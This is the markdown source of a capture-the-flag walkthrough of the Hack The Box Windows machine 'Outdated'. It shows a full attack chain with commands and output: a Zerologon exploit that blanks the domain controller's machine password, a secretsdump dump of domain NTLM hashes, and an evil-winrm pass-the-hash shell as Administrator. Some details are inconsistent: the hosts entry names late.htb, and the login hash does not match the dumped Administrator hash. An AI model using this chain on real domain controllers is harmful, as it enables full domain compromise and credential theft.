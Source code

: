 ```yaml
---
title: "Outdated -- HTB walkthrough"
date: 2022-08-14T10:12:16+13:00
draft: true
description: "https://app.hackthebox.com/machines/outdated"
tags : ['htb', 'windows', 'medium', 'active']
aliases: [/ctf/htb/boxes/outdated/]
---
```

{{% hugo-encryptor "PASSWORD" %}}

# You cannot see me unless you've got the password!

### Official [box page](https://app.hackthebox.com/machines/outdated) on HTB

{{< img-border-radius src="https://github.com/0xWerz/CTF-writeups/raw/main/HTB/Machines/outdated/img/outdated.png" radius="3%" >}}
### Walkthrough:

#### System Scan | **IP: 10.129.15.107**

let's add the ip to to the `/etc/hosts` file with the default hostname`outdated.htb`

> `echo '10.129.15.107    late.htb ' >> /etc/hosts`
> nmap -Pn 10.129.15.107 -T4
```bash
werz@ctf01:~/ctf/htb/outdated$ nmap -Pn 10.129.15.107 -T4
Nmap scan report for 10.129.15.107
PORT      STATE   SERVICE
25/tcp    open    smtp
53/tcp    open    domain
88/tcp    open    kerberos-sec
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
389/tcp   open    ldap
445/tcp   open    microsoft-ds
464/tcp   open    kpasswd5
593/tcp   open    http-rpc-epmap
636/tcp   open    ldapss1
3268/tcp  open    globalcatLDAPssl
5985/tcp  open    wsman
50006/tcp open    unknown
```

I Believe that the way I'll do is probably a unintended way.

download [risksense/zerologon](https://github.com/risksense/zerologon) and execute it passing it a DC name and the victim IP

it will take some time:

```bash
werz@ctf01:—/ctf/htb/outdated$ python3 set_empty_pw.py DC 10.129.15.107
Performing authentication attempts... 
=======

NetrServerAuthenticate3Response
ServerCredential:
Data:                            b'\xd7\x93\xa6\x1d\xe7\x1c\xbeut' 
NegotiateFlags:                  556793855 
AccountRid:                      1002
ErrorCode:                       0 
server challenge b'\xd7\x9b$\x14\xbc\x91\xf7\x83' 
Net rServerPasswordSet2Response 
ReturnAuthenticator: 
Credential: 
Data:                           b'\x014\x1d\x97\xb078;' 
Timestamp:                      0 
ErrorCode:                      0 

Success! DC should now have the empty string as its machine password. 
```

so the password has been removed we can dump hashes with impacket [secretdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```bash
werz@ctf01:~/ctf/htb/outdated$ secretdump.py -just-dc -no-pass 'DC$@10.129.15.107'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:716f1ce2e2cf38ee1210cce35eb78cb6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a300e4031093085c7af7ac61a79e6d00:::
outdated.htb\btables:1106:aad3b435b51404eeaad3b435b51404ee:781444163f086fdf8de13de9110ed6e7:::
outdated.htb\sflowers:1108:aad3b435b51404eeaad3b435b51404ee:1fcdb1f6015dcb318cc77bb2bda14db5:::
DC$:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CLIENT$:1105:aad3b435b51404eeaad3b435b51404ee:c57f6ab8490903d04597f6ff606fc58b:::
```

With the administrator hash we can connect with [evil-winrm](https://github.com/Hackplayers/evil-winrm)
```bash
werz@ctf01:~/ctf/htb/outdated$ evil-winrm -u Administrator -i 10.129.15.107 -H 31d6cfe0d16ae931b73c59d7e0c089c0
Evil-WinRm shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRm* PS C:\Users\Administrator\Documents>
```
And we are in :)

> it may be patched anytime, I'll post the intented way soon.

{{% /hugo-encryptor %}}
